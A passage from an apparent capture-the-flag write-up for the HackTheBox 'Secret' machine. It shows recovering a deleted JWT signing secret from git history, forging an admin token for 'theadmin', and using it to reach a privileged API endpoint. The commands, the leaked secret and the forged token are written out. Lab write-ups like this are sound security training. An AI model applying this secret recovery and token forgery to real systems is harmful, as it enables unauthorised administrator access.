 Remember that we found that `.env` file? Maybe this contains our `TOKEN_SECRET` variable and we can use it to craft our JWT-token.
Logging the file we see it doesn't contain much information and that the `TOKEN_SECRET` is `secret`. Its likely removed.

```bash
DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
TOKEN_SECRET = secret
```

If it was ever in there it should be in a git commit, because the folder is a repository. Lets check the logs.

```bash
git log
```

It contains a commit *"removed .env for security reasons"*, lets use `git diff` to check what changed. The commithash associated is `67d8da7a0e53d8fadeb6b36396d86cdcd4f6ec78`.
To view changes in a specific commit you can use the following command `git diff COMMIT^!`. The `COMMIT` parameter is a [commit-ish](https://git-scm.com/docs/gitglossary#def_commit-ish).

> A [commit object](https://git-scm.com/docs/gitglossary#def_commit_object) or an [object](https://git-scm.com/docs/gitglossary#def_object) that can be recursively dereferenced to a commit object. The following are all commit-ishes: a commit object, a [tag object](https://git-scm.com/docs/gitglossary#def_tag_object) that points to a commit object, a tag object that points to a tag object that points to a commit object, etc.

This basically means the hash that we just found.
Replacing this with the correct value and this will be the command we need to run.

```bash
git diff de0a46b5107a2f4d26e348303e76d85ae4870934..
```

```diff
diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

And we see a secret! Now we can use this so sign the JWT-token. The contents of the token will be ``{"name":"theadmin"}``.
I used an online tool to generate the JWT-token and this is my result *eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGhlYWRtaW4ifQ.GDRG1ileUj55S0ZdAAZhtUz28Hz4s7fHgqbiES5Qr7s*

![](/assets/CTFs/HTB/Secret/jwt-generate.png){: .modal}

Now if we set the `auth-token` header to our generated JWT-token and go to `/api/priv` it shows us that we are the  `"theadmin"`.
